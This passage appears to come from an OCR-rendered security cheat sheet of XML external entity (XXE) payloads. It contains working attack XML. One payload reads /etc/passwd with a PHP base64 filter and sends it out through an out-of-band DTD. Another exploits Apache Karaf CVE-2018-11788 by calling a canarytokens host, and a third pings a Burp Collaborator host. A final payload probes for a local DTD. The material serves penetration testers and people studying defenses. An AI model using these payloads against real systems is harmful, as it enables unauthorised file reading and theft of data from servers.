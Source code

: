 ### XXE OOB with DTD and PHP filter

```xml
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://127.0.0.1/dtd.xml">
%sp;
%param1;
]>
<r>&exfil;</r>

File stored on http://127.0.0.1/dtd.xml
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://127.0.0.1/dtd.xml?%data;'>">
```

### XXE OOB with Apache Karaf

CVE-2018-11788 affecting versions:

- Apache Karaf <= 4.2.1
- Apache Karaf <= 4.1.6

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://27av6zyg33g8q8xu338uvhnsc.canarytokens.com"> %dtd;]
<features name="my-features" xmlns="http://karaf.apache.org/xmlns/features/v1.3.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://karaf.apache.org/xmlns/features/v1.3.0 http://karaf.apache.org/xmlns/features/v1.3.0">
    <feature name="deployer" version="2.0" install="auto">
    </feature>
</features>
```

Send the XML file to the `deploy` folder.

Ref. [brianwrf/CVE-2018-11788](https://github.com/brianwrf/CVE-2018-11788)


## XXE with local DTD

In some case, outgoing connections are not possible from the web application. DNS names might even not resolve externally with a payload like this:
```xml
<!DOCTYPE root [<!ENTITY test SYSTEM 'http://h3l9e5soi0090naz81tmq5ztaaaaaa.burpcollaborator.net'>]>
<root>&test;</root>
```

If error based exfiltration is possible, you can still rely on a local DTD to do concatenation tricks. Payload to confirm that error message include filename.

```xml
<!DOCTYPE root [
    <!ENTITY % local_dtd SYSTEM "file:///abcxyz/">

    %local_dtd;
]>
<root></root>
```
